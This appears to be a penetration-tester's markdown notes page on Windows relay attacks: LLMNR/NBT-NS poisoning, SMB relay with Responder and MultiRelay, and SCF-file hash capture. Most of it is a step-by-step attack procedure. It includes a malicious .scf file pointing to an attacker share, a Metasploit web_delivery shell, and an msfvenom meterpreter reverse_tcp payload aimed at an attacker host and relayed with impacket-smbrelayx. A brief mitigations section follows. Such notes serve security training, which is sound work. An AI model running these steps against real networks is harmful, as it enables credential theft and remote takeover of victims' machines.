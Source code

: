 # Relay attacks
---
# Navigation
- **[Whats LLMNR](#Whats%20LLMNR)**
- **[SMB relay attack](#SMB%20relay%20attack)**
- **[SMB scf attack](#SMB%20scf%20attack)**
- **[Further reading](#Further%20reading)**
---
# Whats LLMNR?
**Link-Local Multicast Name Resolution (LLMNR)** and **NetBIOS Name Service (NBT-NS)** are Microsoft Windows components that serve as alternate methods of host identification. **LLMNR is based upon the Domain Name System (DNS) format** and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
But this method of host resolution has severe security impact, as when a non-existing host is searched using LLMNR method, it **broadcasts** the search request to every system connected to the local network. As a result, **if any of the systems in local network is somehow compromised by an attacker, it also receives the host search query and can send a response to the victim** (the system which initiated the host resolution query) that it knows the host **and in turn ask for the password hash of the victim**.

![[LLMNR.png]]

---
# SMB relay attack
## Definition
SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.
Instead of cracking the NTLM hashes taken from the LLMNR poisoning attack or any other method we can authenticate using the hash using SMB relay attack but this requires two conditions:
- The victim user must be a local admin.
- SMB signing must be disabled.
## Checking if SMB signing id disabled
```bash 
nmap -p 445 -sS --script smb-security-mode.nse <Target-IP>
```
## Exploitation
1. Turn off the SMB and HTTP servers by changing ‘On’ to ‘Off’.
```bash
nano /usr/share/responder/Responder.conf
```
2. Run Responder.
```bash
responder -I <Interface> -rv
#-I (capital i specifies interface) -rv (required settings for relay attack)
```
3. Boot up Multi-Relay and wait.
```bash
cd /usr/share/responder/tools
python MultiRelay.py -t <Targete-IP> -u ALL
```
4. Post-exploitation
Shut off responder and let's get a system shell
```bash
msfconsole
use exploit/multi/script/web_delivery
show targets #Then select 'PSH' (Powershell)
run
```
5. Take the command from metsaploit and execute it in the multirelay shell.
## Mitigations
1. Disable LLMNR and NetBIOS in local security settings or by group policy this can be done by running the following powershell command to change the registry to disbale llmnr and netbios.
```powershell
New-Item "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT" -Name DNSClient  -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" -Name EnableMultiCast -Value 0 -PropertyType DWORD  -Force
```
2.  Enabling SMB signing can stop NTLMv2 relay attacks (note that this will increase traffic because of the additional processing for each packet) and also some printers may not support SMB singing. To turn on SMB signing you can do so through group policy by enabling “Microsoft network client: Digitally sign communication (always)”
3.  Network segmentation is another way in which this can be mitigated because then the man in the middle attack is limited in scope. This can be achieved by segmenting the network through Vlans.
---
# SMB .scf attack
SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to **access a specific UNC path** which allows the penetration tester to build an attack.
> **A UNC path** is the path to a folder or file on a network and contains the server name in the path.
## Attack
1. Create a `File.scf` then upload the file.
```txt
[Shell]
Command=2
IconFile=\\192.168.1.171\share\AbuQasem.ico
[Taskbar]
Command=ToggleDesktop
```
> **NOTE**:
> It's recommended to add a `@file.scf` before the file name so the file will be listed in the top of the share folder.


2. Run `responder` and wait for the hash.
```bash
responder -wrf --lm -v -I eth0
```
3. If you want to go further and get a shell, create a malicious file and setup the `multi/handler`
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.171 LPORT=5555 -f exe > abuqasem.exe
```
4. Relay the file and check the msfconsole for the shell.
```bash
impacket-smbrelayx -h Target-IP -e ./abuqasem.exe
```
---
# Further reading
1. [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
2.   [https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef](https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef)
3.   [https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks)
4.   [https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing](https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing)
5.   https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/